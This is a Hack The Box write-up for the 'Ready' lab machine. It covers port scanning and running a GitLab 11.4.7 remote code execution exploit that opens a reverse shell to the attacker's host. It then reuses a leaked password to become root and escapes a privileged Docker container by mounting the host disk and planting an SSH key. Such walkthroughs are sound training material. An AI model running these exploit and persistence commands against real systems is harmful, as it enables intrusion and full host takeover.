 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "Ready was a pretty straighforward box to get an initial shell on: We identify that's it running a vulnerable instance of Gitlab and we use an exploit against version 11.4.7 to land a shell. Once inside, we quickly figure out we're in a container and by looking at the docker compose file we can see the container is running in privileged mode. We then mount the host filesystem within the container then we can access the flag or add our SSH keys to the host root user home directory."
date: 2021-05-15
classes: wide
header:
  teaser: /assets/images/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/ready_logo.png)

Ready was a pretty straighforward box to get an initial shell on: We identify that's it running a vulnerable instance of Gitlab and we use an exploit against version 11.4.7 to land a shell. Once inside, we quickly figure out we're in a container and by looking at the docker compose file we can see the container is running in privileged mode. We then mount the host filesystem within the container then we can access the flag or add our SSH keys to the host root user home directory.

## Portscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs a Gitlab instance.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

Once logged in, we see in the projects list there's a single projet called *ready-channel*.

![](/assets/images/htb-writeup-ready/gitlab3.png)

To check the Gitlab version we go to the Help section and we can see it's running 11.4.7.

![](/assets/images/htb-writeup-ready/gitlab5.png)

A quick search on Exploit-DB shows there's an authenticated remote code execution vulnerability for this exact version.

![](/assets/images/htb-writeup-ready/gitlab6.png)

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

Reverse shell connection:

![](/assets/images/htb-writeup-ready/shell.png)

![](/assets/images/htb-writeup-ready/user.png)

## Privesc

By running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we find a backup file with some SMTP credentials for the gitlab application. 

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside the container.

```
git@gitlab:/opt/backup$ su -l root
su -l root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~# 
```

There's a root_pass file in the root of the filesystem but that's not useful.

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

If we look at the `/opt/backup/docker-compose.yml` configuration file, we can see it's a hint that we're running in a privileged container:

```
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m
```

Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.

![](/assets/images/htb-writeup-ready/root.png)

To get a proper shell in the host OS we can drop our SSH keys in the root's .ssh directory.

```
root@gitlab:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
root@gitlab:~# echo 'ssh-rsa AAAAB3NzaC1y[...]+HUBS+l32faXPc= snowscan@kali' > /mnt/root/.ssh/authorized_keys

[...]

$ ssh root@10.129.150.37
The authenticity of host '10.129.150.37 (10.129.150.37)' can't be established.
ECDSA key fingerprint is SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.37' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

[...]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
root@ready:~# cat root.txt
b7f98681505cd39066f67147b103c2b3
```